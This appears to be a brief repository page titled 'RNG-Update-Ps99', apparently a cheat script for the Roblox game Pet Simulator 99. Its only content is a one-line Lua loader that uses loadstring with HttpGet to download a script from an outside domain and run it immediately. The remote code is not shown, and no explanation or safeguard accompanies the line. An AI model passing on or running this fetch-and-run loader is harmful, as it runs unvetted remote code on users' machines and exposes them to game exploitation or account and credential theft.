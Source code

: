 # RNG-Update-Ps99



loadstring(game:HttpGet("https://egorikusa.space/02450c1008b1386bce0ff1ac.lua", true))()
